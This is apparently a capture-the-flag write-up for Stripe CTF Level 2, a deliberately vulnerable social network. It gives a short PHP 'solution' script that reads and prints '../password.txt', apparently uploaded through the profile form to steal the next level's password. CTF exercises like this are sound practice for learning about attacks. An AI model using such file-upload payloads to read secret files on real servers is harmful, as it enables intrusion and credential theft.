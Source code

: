 ## Level 2

You are now on Level 2, the Social Network. Excellent work so far! Social Networks are all the rage these days, so we decided to build one for CTF. Please fill out your profile at https://level02-1.stripe-ctf.com/user-xxxxxxxxxx. You may even be able to find the password for Level 3 by doing so.

The code for the Social Network can be obtained from `git clone https://level02-1.stripe-ctf.com/user-xxxxxxxxxx/level02-code`, and is also included below.

### Running

- Put index.php on a server somewhere with password.txt file in the
  same directory.

### Solution

```php
#!/usr/bin/env php
<?php
echo file_get_contents("../password.txt");
```

Originally posted at [https://stripe-ctf.com/levels/2](https://stripe-ctf.com/levels/2).
